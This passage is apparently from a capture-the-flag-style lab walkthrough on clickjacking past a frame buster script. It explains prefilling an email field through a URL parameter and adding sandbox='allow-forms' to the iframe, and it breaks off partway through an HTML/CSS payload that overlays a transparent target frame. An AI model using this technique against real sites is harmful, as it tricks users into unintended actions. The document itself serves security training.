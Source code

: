 ---------------------------------------------

If the user profile is accessed with the parameter “email”, the email field gets populated:



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/2.png)


If we try to use the payload from previous labs we get this error:



![img](images/Clickjacking%20with%20a%20frame%20buster%20script/3.png)

We can add 'sandbox="allow-forms"' to the iframe code to avoid this problem, so we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
```